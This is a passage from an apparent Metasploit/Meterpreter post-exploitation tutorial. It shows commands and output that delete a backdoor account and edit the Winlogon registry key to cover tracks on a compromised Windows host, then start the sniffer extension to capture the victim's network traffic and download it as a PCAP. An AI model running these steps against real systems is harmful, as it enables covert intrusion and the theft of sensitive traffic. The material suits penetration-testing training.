 ``` plain
meterpreter > run multi_console_command -rc /root/.msf5/logs/scripts/getgui/clean_up__20160609.2308.rc
[*] Running Command List ...
[*] 	Running command execute -H -f cmd.exe -a "/c net user master /delete"
Process 832 created.
[*] 	Running command reg deleteval -k HKLM\\SOFTWARE\\Microsoft\\Windows\ NT\\CurrentVersion\\Winlogon\\SpecialAccounts\\UserList -v master
[-] stdapi_registry_open_key: Operation failed: The system cannot find the file specified.
```

Despite the error above, the user was removed from the logon session. However, some files of that user remained behind and I had to manually delete them

### Packet sniffing

Further on, we can enable a packet sniffer on the target to gather more sensitive information:

``` plain
meterpreter > use sniffer
Loading extension sniffer...success.
meterpreter > help
...
Sniffer Commands
================

    Command             Description
    -------             -----------
    sniffer_dump        Retrieve captured packet data to PCAP file
    sniffer_interfaces  Enumerate all sniffable network interfaces
    sniffer_release     Free captured packets on a specific interface instead of downloading them
    sniffer_start       Start packet capture on a specific interface
    sniffer_stats       View statistics of an active capture
    sniffer_stop        Stop packet capture on a specific interface
```

First, we must learn what network interfaces are available:

``` plain
meterpreter > sniffer_interfaces

1 - 'WAN Miniport (Network Monitor)' ( type:3 mtu:1514 usable:true dhcp:false wifi:false )
2 - 'Intel(R) PRO/1000 MT Network Connection' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )
```

Now we can start sniffing:

``` plain
meterpreter > sniffer_start 2
[*] Capture started on interface 2 (50000 packet buffer)
```

We can then dump the packets to a file and see if we've got anything interesting:

``` plain
meterpreter > sniffer_dump 2 /root/capture.pcap
[*] Flushing packet capture buffer for interface 2...
[*] Flushed 873 packets (756096 bytes)
[*] Downloaded 069% (524288/756096)...
[*] Downloaded 100% (756096/756096)...
[*] Download completed, converting to PCAP...
[*] PCAP file written to /root/capture.pcap
```
